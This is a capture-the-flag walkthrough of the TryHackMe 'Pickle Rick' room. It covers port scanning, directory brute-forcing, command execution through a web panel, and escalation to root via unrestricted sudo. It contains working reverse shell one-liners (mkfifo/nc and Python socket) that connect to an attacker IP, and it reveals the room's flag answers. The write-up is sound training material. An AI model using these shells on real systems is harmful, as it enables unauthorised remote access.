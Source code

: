 # Pickle Rick (THM)

- https://tryhackme.com/room/picklerick
- March 2, 2023
- easy

---

## Enumeration

- Nmap

1. 22/tcp open ssh syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
2. 80/tcp open http syn-ack Apache httpd 2.4.18 ((Ubuntu))
   - server - Apache/2.4.18
   - title - Rick is sup4r cool
3. 458/tcp filtered appleqtc no-response
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

- first access the web page as no username is known yet
- http://$IP - comment

```
Note to self, remember username!

    Username: R1ckRul3s
```

- http://$IP/robots.txt -> Wubbalubbadubdub
- http://$IP/assets/

![](images/2023-03-02-14-09-43.png)

- brute force with common.txt

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e .php,.html,.txt
```

```
assets                  [Status: 301, Size: 313, Words: 20, Lines: 10]
denied.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38]
index.html              [Status: 200, Size: 1062, Words: 148, Lines: 38]
login.php               [Status: 200, Size: 882, Words: 89, Lines: 26]
portal.php              [Status: 302, Size: 0, Words: 1, Lines: 1]
robots.txt              [Status: 200, Size: 17, Words: 1, Lines: 2]

```

- try to login with username and password may be from robots.txt ?
- yes, it redirect to portal.php with command panel
- only portal.php has access, and others show `Only the REAL rick can view this page.`
- under form found a comment

```Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==

```

- from command panel, some linux command can execute, but some are disabled
- `ls /home` -> rick and ubuntu
- cat command is disable, use with less
- `pwd` - `/var/www/html`
- `ls -la` -

```
total 40
drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```

- first ingredient

```sh
less Sup3rS3cretPickl3Ingred.txt
```

- second ingredient

```sh
less /home/rick/second\ ingredients
```

- `sudo -l` as www-data user

```
Matching Defaults entries for www-data on ip-10-10-72-194.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-72-194.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

- try to get reverse shell
- listen with nc at port 4242 at your attack machine

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4242 >/tmp/f
```

- not success

```python
export RHOST="10.11.8.57";export RPORT=4242;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

- get shell access for www-data
- transfer linpeas.sh from your attack machine and get from tmp foler inside reverse shell and run linpeas.sh
- Interesting findings

```
- Vulnerable to CVE-2021-4034
- SUID
85     40 -rwsr-xr-x   1 root     root               40128 May 16  2017 /bin/su
```

- then change `sudo su` to become root

```sh
www-data@ip-10-10-252-85:/tmp$ sudo su
root@ip-10-10-252-85:/tmp# whoami
root
root@ip-10-10-252-85:/tmp# cd /root
root@ip-10-10-252-85:~# ls
3rd.txt  snap
root@ip-10-10-252-85:~# cat 3rd.txt
3rd ingredients: fleeb juice
```

